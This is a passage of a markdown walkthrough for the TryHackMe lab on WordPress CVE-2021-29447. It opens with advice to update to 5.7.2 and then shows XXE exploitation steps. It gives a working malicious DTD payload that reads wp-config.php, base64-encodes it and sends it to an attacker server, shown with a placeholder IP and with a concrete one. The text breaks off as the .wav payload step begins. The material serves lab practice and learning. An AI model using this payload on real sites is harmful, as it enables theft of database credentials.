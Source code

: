 # WordPress CVE-2021-29447 Exploit Walkthrough  

### Overview  
To protect against CVE-2021-29447, ensure your WordPress version is updated to 5.7.2 or later.  
- **THM Room**: [TryHackMe WordPress CVE-2021-29447](https://tryhackme.com/r/room/wordpresscve202129447)  
- **Write-Up**: [Imdad Miran's Guide](https://imdadmiran.medium.com/tryhackme-wordpress-cve-2021-29447-writeup-cd5dc4a6ea5d)  
- **Video Walkthrough**: [YouTube](https://www.youtube.com/watch?v=tE8Smz1Jvb8)  

---

### Goal  
Use **XXE (XML External Entity)** injection to retrieve the `wp-config.php` file, which contains sensitive database credentials. The server will respond with a Base64-encoded version of the file.  

---

### Step-by-Step Breakdown  

#### **1. Set Up the DTD File (Payload)**  
Create a DTD file with a malicious external entity to read `wp-config.php`.  

**Commands:**  

```bash
nano poc.dtd
```

Content for DTD file:

```bash
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/var/www/html/wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://YOUR_LOCAL_SERVER_IP:8080/?p=%file;'>" >
```

Example:

```bash
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/var/www/html/wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.101.109.127:8080/?p=%file;'>" >
```

Verify the content:

```bash
cat poc.dtd
```

### 2. Craft the Payload File (poc.wav)
Create a .wav file that triggers the XXE vulnerability.

Command:

